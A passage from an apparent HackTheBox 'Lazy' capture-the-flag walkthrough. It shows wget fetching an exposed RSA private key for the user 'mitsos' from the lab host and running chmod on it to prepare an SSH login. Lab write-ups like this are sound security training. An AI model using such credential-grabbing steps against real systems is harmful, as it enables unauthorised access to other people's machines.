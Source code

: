 ![rsa_key](rsa_key.png)

With this key, we should be able to SSH into the machine as `mitsos`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# wget -O id_rsa http://10.10.10.18/mysshkeywithnamemitsos
--2022-04-25 11:24:07--  http://10.10.10.18/mysshkeywithnamemitsos
Connecting to 10.10.10.18:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1679 (1.6K)
Saving to: ‘id_rsa’

id_rsa                        100%[===============================================>]   1.64K  --.-KB/s    in 0s      

2022-04-25 11:24:07 (389 MB/s) - ‘id_rsa’ saved [1679/1679]

                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# chmod 600 id_rsa 
                                                                                                                      
```